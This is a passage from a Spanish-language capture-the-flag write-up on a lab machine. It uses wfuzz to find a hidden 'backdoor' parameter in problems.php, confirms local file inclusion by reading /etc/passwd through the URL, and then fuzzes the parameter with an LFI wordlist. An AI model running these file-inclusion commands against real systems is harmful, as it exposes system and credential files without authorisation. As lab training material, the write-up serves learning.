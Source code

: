 ## Wfuzz

```bash
wfuzz --hw=961 -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -u "http://172.17.0.2/problems.php?FUZZ=/etc/passwd"
```

![[20250812204519.png]](veneno-images/20250812204519.png)

aqui podemos ver un parametro backdoor vamos a probar en la web si realmente funciona

ponemos esto en la URL:

```bash
http://172.17.0.2/problems.php?backdoor=/etc/passwd
```

![[20250812204636.png]](veneno-images/20250812204636.png)

podemos ver que efectivamente se acontece un LFI asi que vamos a buscar informacion sobre la que atacar.

despues de buscar con diferentes diccionarios de LFI encontramos esto:

```bash
wfuzz --hc=404 -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://172.17.0.2/problems.php?backdoor=FUZZ"
```

